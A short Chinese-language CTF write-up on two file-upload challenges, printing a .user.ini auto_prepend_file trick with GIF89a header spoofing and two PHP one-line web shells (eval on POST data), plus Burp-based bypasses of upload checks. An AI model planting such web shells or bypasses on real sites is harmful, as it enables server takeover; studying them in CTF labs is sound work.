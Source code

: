 # 文件上传

## 攻防世界easyupload

参考[[文件上传\]浅析.user.ini的利用-CSDN博客](https://blog.csdn.net/cosmoslin/article/details/120793126)

本题利用.user.ini文件上传

首先创建.user.ini

.user.ini文件内容如下

```
GIF89a 				//图片头欺骗
auto_prepend_file = 1.jpg 				//使同级目录下所有php文件包含1.jpg
```

接下来创建1.txt内容为

```
GIF89a						//文件头欺骗
<?=eval($_POST['shell']);?>				//一句话木马
```

上传burp抓包修改文件名为1.jpg

上传成功蚁剑链接/uploads/index.php

根目录拿到flag

## [ACTF2020 新生赛]Upload

访问IP有个灯泡，鼠标移动到灯泡上发现上传点

随便上传个一句话木马

提示只能上传文件，burp抓包绕过前端验证

发现后端也有验证

随机分配文件名所以.htaccess文件行不通

传入1.phtml文件，phtml是一个嵌入了php脚本的html页面，内容如下

```
<script language='php'>@eval($_POST['a']);</script>
```

上传成功，weshell工具连接拿到flag



